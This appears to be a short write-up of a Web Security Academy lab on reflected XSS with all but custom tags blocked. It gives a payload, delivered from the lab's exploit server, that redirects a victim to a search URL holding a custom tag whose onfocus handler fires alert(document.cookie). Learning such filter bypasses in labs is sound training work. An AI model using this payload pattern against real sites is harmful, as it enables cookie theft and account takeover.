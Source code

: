 # Lab: Reflected XSS into HTML context with all tags blocked except custom ones #

## Lab Description ##

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/ef5658c6-c97a-4b13-b2f5-fab27804d9c4)

> We  goto exploit server and deliever the payload
```
  <script>
location = 'https://0a5e000304325f6f80cafd4d00f80059.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/e70bcf17-21ca-470a-b796-3352a45b89e3)

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/ef309a63-0312-41b9-a26f-fb14e292efba)
